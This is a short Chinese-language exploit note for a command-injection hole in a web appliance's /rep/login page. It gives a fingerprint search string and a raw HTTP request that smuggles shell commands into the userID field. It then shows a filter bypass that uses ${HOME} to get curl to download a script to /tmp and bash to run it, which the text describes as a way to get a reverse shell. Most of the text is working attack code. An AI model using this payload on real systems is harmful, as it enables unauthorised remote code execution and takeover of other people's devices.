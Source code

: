 # 指纹特征
```
body="/report/templet/image/login-logo-text.png"
```

# 漏洞复现
```
POST /rep/login HTTP/1.1
Host: 127.0.0.1:85
User-Agent: Mozilla/5.0 (Linux; Android 13; SM-A536E) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Mobile Safari/537.36  uacq
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 123

clsMode=cls_mode_login1&index=index&log_type=report&loginType=webui&page=login&rnd=0&userID=admin%0Awhoami%0A&userPsw=123
```

# 漏洞利用
测试发现过滤了如下字符
```
/
|
>
:
`
;
\
"
<
&
```
这样的话，没法写webshell、反弹shell

可以利用linux的环境变量${HOME}和${PWD}替代特殊字符/来反弹shell，反弹shell编码前
```
curl 127.0.0.1 -o /tmp/1.txt
bash /tmp/1.txt
```
编码后
```
curl%20127.0.0.1%20-o%20${HOME}tmp${HOME}1.txt
bash%20${HOME}tmp${HOME}1.txt
```
web目录（不确定是否通用）
```
/usr/web/wwwroot
```

# 参考链接
https://mp.weixin.qq.com/s/UbkQ9YvnIu8eN7nJgiXw4Q